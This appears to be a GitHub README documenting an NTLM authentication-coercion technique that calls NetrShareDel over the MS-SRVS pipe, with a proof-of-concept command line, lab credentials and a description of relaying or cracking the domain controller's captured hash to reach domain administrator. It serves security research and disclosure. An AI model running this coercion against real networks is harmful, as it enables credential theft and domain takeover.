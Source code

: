 # MS-SRVS - Remote call to NetrShareDel (opnum 18)

## Summary

+ **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

+ **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

+ **Protocol version**: 3.0

+ **SMB Named pipe**: `\PIPE\srvsvc`

+ **Function name**: [`NetrShareDel`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/9d316eca-5d20-4618-8044-9e6468f8ebc2)

+ **Function operation number**: `18`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetrShareDel`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/9d316eca-5d20-4618-8044-9e6468f8ebc2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrShareDel('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrShareDel(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in, string] WCHAR* NetName,
   [in] DWORD Reserved
 );
```

## References

+ Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

+ Documentation of function `NetrShareDel`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/9d316eca-5d20-4618-8044-9e6468f8ebc2